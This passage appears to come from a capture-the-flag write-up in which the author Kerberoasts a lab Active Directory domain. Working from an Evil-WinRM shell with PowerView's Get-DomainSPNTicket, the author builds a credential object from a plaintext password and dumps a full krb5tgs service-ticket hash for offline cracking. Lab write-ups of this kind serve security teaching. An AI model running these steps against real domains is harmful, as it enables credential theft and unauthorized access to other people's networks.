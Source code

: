 
To actually Kerberoast, I’ll need to use an SPN with a [valid
format](https://docs.microsoft.com/en-us/windows/win32/ad/name-formats-for-
unique-spns) (unlike `nonexistent/0xDF`), so I’ll use that one going forward.

`PowerView` has `Get-DomainSPNTicket` to Kerberoast, but it actually requires
a credential object (even though I am logged in as smith):

    
    
    *Evil-WinRM* PS C:\programdata> Get-DomainSPNTicket -SPN "MSSQLSvc/object.local:1433"
    Warning: [Get-DomainSPNTicket] Error requesting ticket for SPN 'MSSQLSvc/object.local:1433' from user 'UNKNOWN' : Exception calling ".ctor" with "1" argument(s): "The NetworkCredentials provided were unable to c
    reate a Kerberos credential, see inner exception for details."
    

The error message is about the credentials being invalid. I’ll create a
credential object:

    
    
    *Evil-WinRM* PS C:\programdata> $pass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force 
    *Evil-WinRM* PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $pass)
    *Evil-WinRM* PS C:\programdata> Get-DomainSPNTicket -SPN "MSSQLSvc/object.local:1433" -Credential $Cred
    Warning: [Invoke-UserImpersonation] powershell.exe is not currently in a single-threaded apartment state, token impersonation may not work.
    Warning: [Invoke-UserImpersonation] Executing LogonUser() with user: object.local\smith
    
    SamAccountName       : UNKNOWN
    DistinguishedName    : UNKNOWN
    ServicePrincipalName : MSSQLSvc/object.local:1433
    TicketByteHexStream  :
    Hash                 : $krb5tgs$23$*UNKNOWN$UNKNOWN$MSSQLSvc/object.local:1433*$DAECA7C0ACC55F14934E5E8A382F7AD6$FB41B91C34D8B1139FD30A93B7C0534D7767606C940A162D6A08BD7A84C604FC6757E2EFB5CCEAC9B6B87052440E82F0A111663EE2E9153746E5C13296E39D2788BE41F4
    81F2F2594F3D90011C2BDEFFC704613ACA9B3684A9F96B352E6DD0B0B0009C294DA4E8203AA43C0221F3263115899E7B77989CEF394E9402AA96BF768D515210FCEA3D4FFA7134D8F3B2D0C867C2C63B20164C01D78A607B5249A79CAAA334AF80BD5B0D21DA948440BF0E0BB68E4AE791
    8DDAF8C860AC86EA7C21E95F29ACB53397C9F5F24A223ACEE9DCE22E255CEF0D7CB67E0F421A50D1F204ACC038D85D15716B33F0EB2B23E7A039ECAA67F4EA9327860970AD417406941EB771DB2B564096336524650D6C0D6EB1CA6BF108C339DDB9FA38DB0587F7EFBAEE98A3FE3449DB
    4DA81E59224EA0467B4DC2F2576846DDEF787E3D7BA1C213D3248B7D5D5227E00E8CA6B480227CD69DDFD7ACC05FD2F907DA6B5BABF60D630BA12679323E02E541FF81B2522A8536BE1F534640AF12C1EADE7026859C82366915C64D45BB855432BD7E72EC1AA53B91D7A6D24E609694C2
    5EA1D37AA66E5E92BE8BF9F6D1DC5E728E70F2295CDBBB2AA7651F2C2615D0ED861D8763F86F9FD5A5F5FB814F0914BC5A2185FD42A753905E28ABDA1DBD891F006C4217D412C1ACBF524B752D395C2055B6814526DF022A600A949779A98D61F80B774425F5D3D28D07F00863D71E5495
    6F68353AA2102681E6931AF8CC09F18E20F3DEBABEE639F578850D0B6D9BD4FCE3CD0DA084AAA4A1805C0E4F012FEB64BB5AB86C748FAD3DDB2ED466C4FCB075C24C2C0B56A728BB65ADBE0F2013B45C79D9C515E3F418B7B7DBCE8B34AF370427670AB12EF1A6B67CFF93B07FD21B9A61
    3D0BA3E034ACA27D2AB139F648A8AA1DAA3F3FD66EA26021855B55ADB32273B3C7D241BAFBE4E12A5F30AF5AB2EF8C4A141A41D27D567C9AFE0A1D2DB17E0BA357E13064D94E077F849D6E66ADD66F4015BE57C9FBF99E79C68ED18DC1F5916044F7ECF984F8397CF65C69776D8E432F4F
    498B323AF1963081EE28C561BBF305D6FA9593813D3A9EFC24671C9540DE1CB7006FBB36847A987EFBDD754517BEE81D8322DC5F2C529C610591D1DE053D72F79A29506725C90C9369FB285A8C2D30090A403C6906FE0C61F3E31C397A3B03768B1061C3B7E69CFDA329F4CB3EA8286A66
    1EC9CFF04C29F9BBC311AC53776C265C9DFEEDB85C4ECD5DC0DDEE64C87E9045A7632A792861B687F6358E138D11676BBFD2783D644B24837659B6F96F93AF529AFC43C32943583E4593B9BEA76B6778134C55B1EB3101CE390F3E9A494BDC927BA5FF2EF20720012FCF4270A8B1BFFA2A
    1012D7C4CACB77AE9B8DE19C8671CB09DB0F15FA008658D9669553F3C5AB3C303694D23A0F409F72DF95336F9ED8898A66289FC15AAF0B9DF0432D69FAA156BF54BBEF237DFCF0139850C5C8896C65A6DA6A4A9712A6D21F2A883EF6F25D460E
    Warning: [Invoke-RevertToSelf] Reverting token impersonation and closing LogonUser() token handle
    